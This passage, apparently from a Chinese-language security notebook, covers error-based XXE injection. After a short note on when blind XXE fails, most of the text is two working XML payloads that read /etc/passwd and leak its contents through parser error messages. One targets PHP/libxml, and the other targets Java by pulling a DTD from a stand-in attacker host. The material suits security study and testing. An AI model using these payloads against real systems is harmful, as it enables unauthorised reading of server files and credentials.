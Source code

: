 如何得知java版本，在xml解析器请求外部dtd时，一般会会携带jdk的版本。

##### 报错注入

* 目标无法链接外网时，Blind XXE无法进行
* jdk版本较高时，外带文件内容受限

当目标支持报错回显时，可以采用以下payload实现报错注入：

* 这是P🐂的payload，实验环境是php + libxml 2.8.0。貌似不通用，在java的一些xml解析器下不成功

```xml
<?xml version="1.0" ?>

<!DOCTYPE message [

    <!ENTITY % NUMBER '

        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">

        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">

        &#x25;eval;

        &#x25;error;

        '>

    %NUMBER;

]>

<message>any text</message>
```

* 在java环境下，需要找到一个本地或者远程可访问的dtd地址

```java
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "http://evil.host.name/include.dtd">

    <!ENTITY % test 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```
